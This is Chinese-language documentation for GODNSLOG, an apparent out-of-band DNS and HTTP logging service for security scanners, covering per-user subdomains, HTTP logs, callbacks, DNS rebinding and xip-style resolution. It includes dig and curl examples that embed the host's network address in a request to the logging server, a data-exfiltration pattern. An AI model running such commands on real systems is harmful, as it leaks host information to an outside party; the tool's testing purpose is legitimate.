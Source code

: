 # 简介

GODNSLOG功能特性:

- 多用户
- DNSLOG
- HTTPLOG 记录
- DNS Rebinding
- 记录结果推送
- xip任意ip解析


每一个`GODNSLOG`用户会分配一个唯一的域名，域名前缀为`shortId`是godnslog平台的唯一用户标识。 `安全设置`页面中如下图

![](https://s1.ax1x.com/2020/08/31/dXPXGR.png)

`712hu2c4gy34.godnslog.com`是给当前用户分配的唯一域名，`712hu2c4gy34`为`shortId`区分用户, 三级域名`*.712hu2c4gy34.godnslog.com`下所有DNS请求记录均会被记录下来，`*`字段由用户自定义，建议跟扫描ID对应起来，用来关联扫描结果。 


## DNS LOG功能

每个用户分配一个唯一的三级域名，该域名或其子域名的所有解析记录均会被记录。
请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时


```bash
dig `/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`.712hu2c4gy34.godnslog.com
```

系统生成域名为`{$variable}.712hu2c4gy34.godnslog.com`，其中`712hu2c4gy34`是用户唯一shortId，`{$variable}`为用户自定义变量


![](https://s1.ax1x.com/2020/08/31/dXPba4.png)


DNSLOG 记录内容包含以下字段：
- domain
- IP
- 记录时间

请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时


## DNS Rebinding

详见rebinding页面[](/document/rebinding)

## HTTP LOG功能

GODNSLOG 的`/log/`接口提供了HTTPLOG的功能，访问`http://${IP}/log/${shortId}/${variable}`的记录都会被记录下来

记录内容包含以下字段:

- IP
- Method
- Path
- User-Agent
- Content-Type 类型
- Data body数据
- 记录时间

```bash
curl http://100.100.100.100/log/ktqlujjpgc4j/`/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`
```
请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时

![](https://s1.ax1x.com/2020/08/31/dXiiIH.png)

## 主动推送

在配置->系统->基础设置中填写callback，GODNSLOG会在接收到DNSLOG或者HTTPLOG时向此回调地址主动推送本次日志记录

![](https://s1.ax1x.com/2020/08/31/dXicy6.png)


## xip

http://godnslog.com

	   10.0.0.1.godnslog.com   resolves to   10.0.0.1
	      www.10.0.0.1.godnslog.com   resolves to   10.0.0.1
	   mysite.10.0.0.1.godnslog.com   resolves to   10.0.0.1
	  foo.bar.10.0.0.1.godnslog.com   resolves to   10.0.0.1

## 编辑文档

文档目录位于`$SRC/frontend/src/md/`目录下，通过raw-loader加载，修改对应的markdown页面内容即可更新，欢迎大家提交PR。


## 致谢

GODNSLOG在设计中大量参考了[CEYE.IO](http://ceye.io)，包括本文档的内容也是，在此向`CEYE.IO`平台致敬。

[CEYE.IO](http://ceye.io)
[dnslog](https://github.com/fanjq99/dnslog)

